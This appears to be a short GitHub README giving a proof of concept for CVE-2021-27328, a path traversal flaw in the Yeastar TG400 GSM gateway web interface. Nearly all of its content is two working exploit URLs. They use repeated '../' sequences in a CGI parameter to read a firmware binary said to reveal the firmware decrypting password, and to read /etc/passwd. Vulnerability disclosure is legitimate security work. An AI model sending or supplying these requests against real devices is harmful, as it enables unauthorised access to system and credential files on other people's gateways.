


# Path Traversal on Yeastar TG400 GSM Gateway - 91.3.0.3


This is a Proof of Concept for CVE-2021-27328

## Example
* to get  firmware decrypting password

```
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
```
 


* to get /etc/paswd

```
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```


